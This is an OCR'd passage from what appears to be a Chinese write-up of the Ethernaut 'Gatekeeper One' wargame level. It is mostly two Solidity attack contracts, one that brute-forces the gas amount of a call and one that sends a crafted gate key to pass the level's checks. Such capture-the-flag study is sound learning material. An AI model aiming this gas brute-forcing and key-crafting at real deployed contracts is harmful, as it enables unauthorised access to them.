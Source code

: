           interface IGatekeeperOne {
              function enter(bytes8 _gateKey) external returns(bool);
          }
          
          contract attack {
              event Failed(bytes reason, uint256 gas);
          
              function run() external {
                  IGatekeeperOne target = IGatekeeperOne(0x1A6742878b66bEA357790541894a38010831B05F);
          
                  // Some dummy _gateKey passed into enter()
                  bytes8 key;
                  key = 0xdeadbeefdeadbeef;
          
                  // Starts with 100000
                  uint256 gas = 100000;
                  // Brute-force 100000+0, 100000+1, ..., 100000+8190
                  for(uint256 i; i < 8191; ++i) {
                      gas += 1;
                      try target.enter{gas:gas}(key) {}
                      catch (bytes memory reason) {
                          emit Failed(reason, gas);
                      }
                  }
              }
          }
          ```

          *   gas `106739`

          `gateThree` 需要满足三个条件

          bytes8 为8个字节，`0x XXXX XXXX 0000 <地址后四位>`

          *   ```solidity
              // SPDX-License-Identifier: MIT
              pragma solidity ^0.8.0;
              
              interface IGatekeeperOne {
                  function enter(bytes8 _gateKey) external returns(bool);
              }
              
              contract attack {
                  event Failed(bytes reason, uint256 gas);
              
                  function run() external {
                      IGatekeeperOne target = IGatekeeperOne(0xA7733993520579fe705739d139b51ca57bCcCb0d);
              
                      bytes8 key;
                      key = 0xdeadbeef0000ddC4;
              
                      uint256 gas = 24445;
                      target.enter{gas:gas}(key);
                  }
              }
              
          
